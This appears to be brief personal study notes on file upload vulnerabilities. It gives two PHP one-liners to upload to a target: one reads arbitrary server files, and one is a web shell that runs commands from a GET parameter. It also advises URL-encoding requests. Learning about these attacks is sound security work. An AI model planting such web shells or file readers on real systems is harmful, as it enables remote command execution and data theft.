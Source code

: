 # File Upload Vulnerabilities

## Rough

- `<?php echo file_get_contents('/path/to/target/file'); ?>` is used to read arbitrary files in a php server
- `<?php echo system($_GET['command']); ?>` is used for a command
- Freakin url encode any request!!!!!!!
